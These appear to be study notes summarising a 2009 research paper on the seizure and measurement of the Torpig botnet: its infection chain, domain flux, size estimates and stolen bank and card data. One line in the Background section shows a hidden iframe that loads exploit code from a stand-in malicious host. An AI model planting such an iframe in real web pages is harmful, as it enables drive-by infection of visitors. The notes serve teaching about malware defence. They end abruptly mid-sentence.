







### (CCS 2009) Your Botnet is My Botnet: Analysis of a Botnet Takeover

This paper talks about a takeover of the **Torpig** botnet and a study of its operations for a period of ten days.

#### Definitions



(A Survey of Botnet and Botnet Detection by Feily and Shahrestani)

A typical botnet can be created and maintained in five phases including: initial infection, secondary injection, connection, malicious command and control, update and maintenance.

1. Initial infection: the attacker scans a target machines for known vulnerability, and infects victim machines through different exploitation methods. Torpig: by malicious web pages.
2. Secondary injection: the infected hosts execute shell-code, which the image of the actual bot binary from the specific location via FTP, HTTP, or P2P. The bot binary installs itself on the target machine.
3. Connection: the bot program establishes a command and control (C&C) channel, and connects to the C&C server.
4. Command and control: botmaster uses the C&C channel to disseminate commands to the bot army. 
5. Update and maintenance: for evading detection, adding new functionalities, changing C&C servers in order to keep alive

#### Introduction

Once a host is infected with a bot, the victim host will join a **botnet**, a network that is control by the **botmaster**. Botnets are used for sending spams, launching denial-of-service attacks, or stealing personal data such as mail accounts or bank credentials. 

Approaches for understanding Botnet includes *passive analysis* of secondary effects that are caused by the activity of compromised machines. A more active approach to study botnets is **infiltration** - using an actual malware sample or a client simulating a bot, researchers join a botnet to perform analysis *from the inside*:

- They use **honeypots**, **honey clients**, or **spam traps** to obtain a copy of a malware sample.

  - Honeypots/honey clients: mimic vulnerable clients that attract malware. For example, they can visit websites or interact with servers that are known to deliver malware.
  - Spam traps: email addresses or systems specifically created to receive spam emails. Since many botnets are used to send spam, spam traps collect these messages, which often include links to malicious files or attachments containing malware.

- The sample is executed in a controlled environment.

- Researchers observe the information exchange between the bot and its **command and control (C&C) servers**.

  - For those rely on the central IRC-based C&C server, this can reveal the IP of other clients (bots) that are concurrently logged into the IRC channel.

  - No longer the case now since most current botnets use stripped-down IRC or HTTP servers as their centralized command and control channels.

    > **Internet Relay Chat**, a client-server protocol that allows real-time text communication over the internet. [RFC1459](https://www.rfc-editor.org/rfc/rfc1459.html).

    > - Especially widely used for group chats.
    > - Bots would connect to specific IRC channels, where the botmaster issued commands to all bots simultaneously.
    > - No longer widely used now.

Due to the open, decentralized nature of peer-topeer (P2P) protocols, it is possible to infiltrate P2P botnets such as Storm.

- Crawlers can actively search the P2P network for client nodes that exhibit bot-like characteristics.
- Not applicable to a majority of current botnets, which mostly use a centralized IRC or HTTP C&C infrastructure.

To overcome the limitations of passive measurements and infiltration, one can attempt to **hijack** the entire botnet.

- Physical seize the machines by law enforcement agencies.
- Collaborate with domain registrars or DNS providers to tamper with the mapping of a botnet domain to point to somewhere the defender controls.
- Some botnets like Torpig use **domain flex**, which means each bot periodically generates a list of domains that it contacts independently.
  - The bot contacts each of them one by one and stay in contact with the first that responds before the next iteration starts.
  - Reversing engineering the domain generation algorithm enable us to register domains that the bot may contact.
  - We can act like a bot master to get information from the bot.

This paper describes their experience in actively seizing control of the Torpig botnet for ten days.

Some certain properties in the analysis:

- Torpig bots transmit identifiers that enable the defender to distinguish between individual infections.
  - Estimate the size of the botnet.
- Torpig harvest lots of sensitive information, which can be analyzed to see the quantity and nature of the data that's leaked using the infection.

#### Background

How is Torpig distributed:

- Via **Mebroot**: a rootkit that takes control of a machine by replacing the system’s Master Boot Record (MBR). The Mebroot is executed before the OS is loaded and remains undetected by anti-virus tools.

- The victims get infected by visiting web pages which include certain HTML tags that cause the browser to request JavaScript code from a website controlled by the attackers. The JavaScript code attacks the browser and its various components and tries to download an executable to the machine.

  ```html
  <iframe src="http://malicious-site.com/exploit" style="display:none;"></iframe>
  ```



- The executable acts as an installer for Mebroot and overwrites the MBR of the machine with Mebroot. After a few minutes, the machine automatically reboots, and Mebroot is loaded from the MBR.
- Mebroot itself doesn't attack the system itself, but manages a series of malicious modules by contacting a **Mebroot C&C server**.
- Mebroot contacts its **Mebroot C&C server** via HTTP and encryption periodically to report its current configuration (i.e., the type and version number of the currently installed modules) and to potentially receive updates.
- Mebroot injects malicious modules into common applications like web browser, email clients, instant messengers, system programs to intercept potential sensitive data.
- Periodically (20 mins), Torpig contacts **Torpig C&C server** to upload these sensitive data.
  - Fortunately, the obfuscation mechanism used by the communication is broken by experts.
  - The C&C server replies in several ways:
    - Acknowledge (`okn` response)
    - Send a configuration file (`okc` response)
- Torpig uses phishing attacks (more on this next lecture)
  - When the victim visits a certain webpage, Torpig contacts an injection server to get another *target domain* which impersonates a valid login page of a site.
  - The user is tricked into input sensitive data in the fake web page.
  - The communication with injection server is protected with HTPPS, but luckily it doesn't authenticate the server's certificate. The defender can launch a man-in-the-middle attack to intercept the communication.

There are four servers here:

1. Vulnerable Web Server: download the JavaScript, which will contact the Mebroot drive-by-download server.
2. Mebroot Drive-by-download server: download the Mebroot installer
3. Mebroot C&C Server: download and update malicious modules on the victim machine
4. Torpig C&C Server: upload sensitive data
5. Injection Server: perform the phishing attack

#### Domain Flux



- Used to contact server 2-4.
- Compute a `dw` that depends on the currect week and year, which stay constant for a week
  - Try `dw.com/net/biz`
- If fails, computes a daily domain `dd`.
  - Try `dd.com/net/bic`
- If fails, contact some hardcoded domains in the configuration file.
- Completely deterministic: once the current date is determined, all bots generate the same list of domains, in the same order.
- Defenders should try to get the control of the domains with higher priority.
- The Torpig controller typically doesn't register all domains, but only some weekly `.com` domain and maybe its corresponding `.net` for backup purpose.

#### Taking control of the Botnet

1. They register the `.com` and `.net` for three consecutive future weeks in advance from two different reliable providers.
2. They set up an Apache web server to receive network traffic and automatically transfer data from the server to local disks for safety concerns.
3. To reduce the harm caused by botnet, they only respond with `okn` and never send it new configuration. Staying in contact with the victim machine prevents it from contacting other servers.
4. They also contact the victims with law enforcement agencies and help them suspend the Torpig domains owned by the cyber-criminals.

#### Botnet Analysis

Communication with the Torpig C&C uses HTTP POST requests:

- The URL for this requests contains the bot identifier (used for estimation of the botnet size) and a submission header.
  - The submission header contains key-value pairs that provide basic info about the bot.
  - For example:
    - ts: time stamp when the configuration was last updated
    - ip: ip address of the bot
    - hport/sport: port numbers of HTTP and SOCKS proxies opened by Torpig
    - os: OS version
    - nid: bot identifier
    - bld/ver: build and version of Torpig
  - 
- The body of the requests contains the stolen data.
  - For example, Torpig can extract email address from email clients like Outlook, which can be used for spam purposes.
  - 

Botnet size:

- There are two definition: **footprint**, which indicates the aggregated total number of machines that have been compromised over time, and **live population**, which denotes the number of compromised hosts that are simultaneously communicating with the C&C server.
- During the control time of the registered domain, because of the characteristics of Torpig, they were able to *passively* analyze the full size without polluting the network caused by active probing.
- First, they use the 8-byte `nid` field to count based on its uniqueness. They reverse engineer the algorithm for computing this value. The algorithm hashes the disk information of the victim machine, and if failed, concatenates the hard-coded value with Windows volume serial number. The value is therefore constant in most cases.
  - They try to validate this hypothesis by comparing other fields like `os`, `ver`, etc. for submissions with the same `nid`, and found that it has 2,079 collisions.
  - Eventually, in the 10-day period, they identify 180,835 unique `nid` values, which may be an underestimate.
- Next, they try to identify unique headers in terms of several fields altogether, including `nid`, `os`, `cn`, and `bld`, with the hope that other fields help distinguishing different machines with the same `nid`. 
  - In this metric, they determine 182,914 machines (as expected, `2,079+180,835`)
- Finally, they identify security researchers and other curious individuals who probed their botnet servers.
  - They assume that `nid` values computed from certain virtual disk models and certain serial numbers are researchers studying malware in a virtual machine. There are 40 of them.
  - They also identified hosts that send invalid requests to the controlled C&C server (i.e., requests that cannot be generated by Torpig bots). There are 74 of them.
  - Eventually, their estimation is 182,800 hosts.
- Using IP addresses to count distinct victims over-estimate the number by almost an order of magnitude. That's because of DHCP protocols and NAT effects. They found that under DHCP dynamic allocation, almost every time a victim contacts the server, the IP address will alter. For NAT, many different local IPs will be mapped into one when reaching the server, so it reduces the number of unique IPs.

Botnet as a Service:

- Torpig DLLs are marked with a build type represented by the `bld` field in the header. This value is set during the drive-by download.
- The build type does not seem to indicate different feature sets, since different Torpig builds behave in the same way, but is included in all communications with the C&C server.
- They hypothesize that this denotes different “customers” of the Torpig botnet, who purchase these data.

#### Threats and Data Analysis

Bank accounts stolen by phishing attacks:

- Credentials of 8,310 accounts at 410 different institutions. The top targeted institutions were PayPal (1,770 accounts), Poste Italiane (765), Capital One (314), E*Trade (304), and Chase (217).
- The large number of institutions that had been breached made notifying all of the interested parties a monumental effort.
- 38% of the credentials stolen by Torpig were obtained from the password manager of browsers, rather than by intercepting an actual login session.

Credit card data:

- 1,660 unique credit and debit card numbers from the collected data.
- The most common cards include Visa (1,056), MasterCard (447), American Express (81), Maestro (36), and Discover (24).
- Of particular interest is the case of a single victim from whom 30 credit card numbers were extracted. Upon manual examination, the victim was an agent for an at-home, distributed call center. It seems that the card numbers were those of customers of the company that the agent was working for, and they were being entered into the call center’s central database for order processing.
- In the ten days when they had control of the botnet, new data was continuously stolen and reported by Torpig bots.

Proxies:

- Torpig opens two ports: SOCKS and HTTP proxy
- 20.2% of the machines were publicly available. These proxies can be leveraged to send spams or navigate anonymously (which means that miscreants can leverage these proxies to hide their real IP addresses and locations while performing malicious activities such as browsing the web, engaging in illegal activities, or conducting attacks)
- They find that many IPs that contact the server are blocked by ZEN blocklist, possibly due to such behaviors.

Denial-of-Service (6.3) may be caused by such massive botnet.

Password Analysis:

- Torpig bots stole 297,962 unique credentials (username and password pairs), sent by 52,540 different Torpig-infected machines.
- Password Analysis is therefore large-scale and based on real data.
- Almost 28% of the victims reused their credentials for accessing 368,501 web sites. Many of them can be easily cracked by John and Ripper tool:

